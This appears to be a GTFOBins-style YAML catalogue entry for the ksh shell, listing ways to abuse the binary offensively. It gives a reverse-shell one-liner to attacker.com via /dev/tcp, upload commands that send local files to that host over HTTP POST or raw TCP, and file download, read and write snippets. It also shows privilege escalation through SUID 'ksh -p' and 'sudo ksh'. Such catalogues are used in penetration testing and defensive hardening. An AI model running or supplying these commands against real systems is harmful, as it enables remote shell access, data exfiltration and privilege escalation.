 ```yaml
---
functions:
  execute-interactive:
    - code: ksh
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        ksh -c 'echo DATA > $LFILE'
  file-read:
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c 'echo "$(<$LFILE)"'
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  suid-enabled:
    - code: ./ksh -p
  sudo-enabled:
    - code: sudo ksh
---
```

